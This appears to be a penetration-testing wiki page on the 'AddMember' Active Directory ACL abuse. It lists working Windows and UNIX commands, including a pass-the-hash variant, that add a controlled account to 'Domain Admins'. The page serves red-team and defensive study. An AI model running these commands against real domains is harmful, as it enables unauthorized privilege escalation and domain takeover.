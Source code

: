# AddMember

This abuse can be carried out when controlling an object that has `AllExtendedRights`, `Self`, `WriteProperty`, `GenericWrite` or `GenericAll` over a target group.

{% tabs %}
{% tab title="Windows" %}
The attacker can add a user/group/computer to a group. This can be achieved with a native command line, with the Active Directory PowerShell module, or with [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module\).

```bash
# Command line ()
net group 'Domain Admins' 'user' /add /domain

# Powershell: Active Directory module
Add-ADGroupMember -Identity 'Domain Admins' -Members 'user'

# Powershell: PowerSploit module
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'user'
```
{% endtab %}

{% tab title="UNIX-like" %}
It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with [pass-the-hash](../abusing-ntlm/pass-the-hash.md).

```bash
# With net and cleartext credentials (will be prompted)
net rpc group addmem $TargetGroup $TargetUser -S $DomainController

# With net and cleartext credentials
net rpc group addmem $TargetGroup $TargetUser%$Password -S $DomainController

# With Pass-the-Hash
pth-net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser%ffffffffffffffffffffffffffffffff:$NThash -S $DomainController
```
{% endtab %}
{% endtabs %}

